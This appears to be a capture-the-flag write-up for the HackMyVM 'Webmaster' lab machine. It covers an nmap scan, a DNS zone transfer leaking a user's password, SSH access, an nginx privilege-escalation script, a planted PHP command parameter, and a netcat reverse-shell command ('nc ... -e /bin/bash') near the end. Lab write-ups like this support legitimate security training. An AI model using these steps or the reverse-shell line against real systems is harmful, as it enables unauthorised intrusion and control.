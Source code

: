 # HackMyVM-Webmaster

## Netdiscover

<img src="https://imgur.com/4MBBH8n.png"/>


## NMAP

```
Nmap scan report for 192.168.1.131                                                                                                            [4/84]
Host is up (0.000055s latency).
Not shown: 997 closed ports                                                                                                                         
PORT   STATE SERVICE VERSION                                              
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:                                                                                                                                      
|   2048 6d:7e:d2:d5:d0:45:36:d7:c9:ed:3e:1d:5c:86:fb:e4 (RSA)
|   256 04:9d:9a:de:af:31:33:1c:7c:24:4a:97:38:76:f5:f7 (ECDSA)
|_  256 b0:8c:ed:ea:13:0f:03:2a:f3:60:8a:c3:ba:68:4a:be (ED25519)
53/tcp open  domain  (unknown banner: not currently available)
| dns-nsid: 
|_  bind.version: not currently available
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|     bind
|_    currently available
80/tcp open  http    nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Site doesn't have a title (text/html).
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/
submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=1/11%Time=5FFB65ED%P=x86_64-pc-linux-gnu%r(DNSV 
SF:ersionBindReqTCP,52,"\0P\0\x06\x85\0\0\x01\0\x01\0\x01\0\0\x07version\x 
SF:04bind\0\0\x10\0\x03\xc0\x0c\0\x10\0\x03\0\0\0\0\0\x18\x17not\x20curren 
SF:tly\x20available\xc0\x0c\0\x02\0\x03\0\0\0\0\0\x02\xc0\x0c");
MAC Address: 08:00:27:FE:8A:1A (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.04 seconds

```

## PORT 80

<img src="https://i.ibb.co/PC2Bbz2/Screenshot-2021-01-11-01-49-39.png"/>

Looking at the source

<img src="https://i.ibb.co/zSj2DmC/Screenshot-2021-01-11-01-49-39.png"/>

So this `webmaster.hmv` refers to a domain name let's add this to `/etc/hosts`.

Now by adding the domain name we are going to do a `Zone transfer` which is a DNS query type AXFR, is a type of DNS transaction.Zone transfers are typically used to replicate DNS data across a number of DNS servers or to back up DNS files.

<img src="https://i.ibb.co/7RLr7SW/Screenshot-2021-01-11-01-49-39.png"/>

We got `john`'s passwords so now let's ssh into the machine.

<img src="https://i.ibb.co/H73FMvG/Screenshot-2021-01-11-01-49-39.png"/>

By running `sudo -l` we can see what can we run as root user

<img src="https://i.ibb.co/Hx7ksWB/Screenshot-2021-01-11-01-49-39.png"/>

We can find an LPE (Local Privilege Escalation) for nginx

<img src="https://i.ibb.co/6BN0jgZ/Screenshot-2021-01-11-01-49-39.png"/>

Let's download this to our machine and transfer it to target machine

<img src="https://i.ibb.co/bPhkV1w/Screenshot-2021-01-11-01-49-39.png"/>

To run this we need to provide the path of nginx error log which is located at `/var/log/nginx/error.log`

Run this like `./40768.sh /var/log/nginx/error.log`

<img src="https://i.ibb.co/bbLQyLf/Screenshot-2021-01-11-01-49-39.png"/>

But we couldn't run the exploit has it is needed to be run as `www-data` so only thing I could thing was to change the contents of one of the webserver files and insert a simple php GET paramter vulnerable code which will allow us to execute commands

<img src="https://i.ibb.co/LJ29gxT/Screenshot-2021-01-11-01-49-39.png"/>

<img src="https://i.ibb.co/4MQyn6r/root.png"/>

Then you can just do `nc your_ip your_netcat_port -e /bin/bash` on `cmd` paramter to get reverse shell

<img src="https://i.ibb.co/QCZQLxW/Screenshot-2021-01-11-01-49-39.png"/>
